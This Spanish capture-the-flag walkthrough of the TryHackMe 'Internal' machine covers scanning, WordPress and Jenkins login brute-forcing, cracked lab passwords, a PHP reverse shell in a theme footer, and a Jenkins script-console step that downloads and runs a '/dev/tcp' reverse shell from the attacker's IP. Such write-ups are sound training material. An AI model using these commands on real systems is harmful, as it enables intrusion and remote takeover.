










# Internal

```bash
sudo nmap -sS -p- --min-rate 4000 -Pn -n --open -vvv 10.10.144.21 -oG allports
nmap -sC -sV -p 22,80 -n -Pn 10.10.144.21 -oN targeted
```



## 80

Tiene en el inicio una página basica de apache, así que usaremos wfuzz pero primero modficaremos el archivo /etc/hosts para incluir la ip de la maquina y poner de nombre de dominio internal.thm

```bash
wfuzz -c --hc 404, 403 -t 100 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://internal.thm/FUZZ
```



## Wordpress 

Analizamos wordpress usando wpscan para analizar posibles usuarios

```bash
wpscan --url http://internal.thm/blog -e u
```



Nos encontramos con el usuario **"admin"**

wpscan también nos permite hacer ataques de fuerza bruta para identificar la contraseña, estaremos usando el diccionario de rockyou.txt

```bash
wpscan --url http://internal.thm/blog -U admin -P /usr/share/wordlists/rockyou.txt
```



`admin:my2boys`

Entramos y nos vamos  a la zona de _"Apparence->theme editor"_ para poder modificar algun archivo php en donde colocaremos una reverse shell y para eso modificaremos el theme footer le agregamos una shell como por ejemplo la que tenemos en **/usr/share/laudanum/wordpress/templates/php-reverse-shell.php**, esto se le puede agregar al final del footer y dentro del body.

Para activarlo bastará con cargar la página pues siempre esta el footer ahí mismo. 

## Pasamos a una full tty



```bash
script /dev/null -c bash
# ctrl + z
stty -a # anotar filas y columnas
stty raw -echo
fg # esto no se mostrará en la terminal pero si podrás escribir
reset
# si te preguntan que terminal usas responde xterm
export TERM=xterm
export SHELL=bash
stty rows 35 columns 106 # La cantidad que te haya salido con stty -a
```

# Enumeracion de la maquina

Buscamos primero que usarios tiene, eso se puede hacer con `cat /etc/passwd` y verificando que carpetas existen en `/home/`

En ambos casos encontramos el usuario aubreanna. Continuando enumerando varias cosas se encuentra un archivo en /opt con un mensaje indicandonos la contraseña aubreanna.



**aubreanna:bubb13guM!@#123**

Se encontró un archivo jenkins.txt que nos dice que internamente esta corriente este servicio en el puerto 8080.



Ahora hacemos un localport forwarding para traer el servicio de manera local en la computadora del atacante

```bash
sudo ssh -L 8080:localhost:8080 aubreanna@internal.thm
```

Atacaremos con fuerza bruta el login de jenkins

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt -t 64 -s 8080 -V localhost http-post-form "/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2F&Submit=Sign+in:Invalid username or password"
```



Ya que sabemos las credenciales nos logeamos y entramos a http://localhost:8080/computer/(master)/script para poder correr scripts en bash.

Primero creamos un archivo shell.sh en nuestra maquina con lo siguiente

```bash
bash -i >& /dev/tcp/10.13.13.243/5555 0>&1
```

y en la página colocamos estas lineas para descargar y ejecutar luego el archivo descargado, que para eso deberemos iniciar un servicio http con `sudo python -m http.server 80`

```java
println "wget http://10.13.13.243/shell.sh -O /tmp/shell.sh".execute().text
println "bash /tmp/shell.sh".execute().text
```



Entramos a opt donde encontramos una nota con la contraseña de root



Ahora solo falta cambiarnos del usuario de aubreanna a root, recuerda no cambiar en el docker que esa es como otra maquina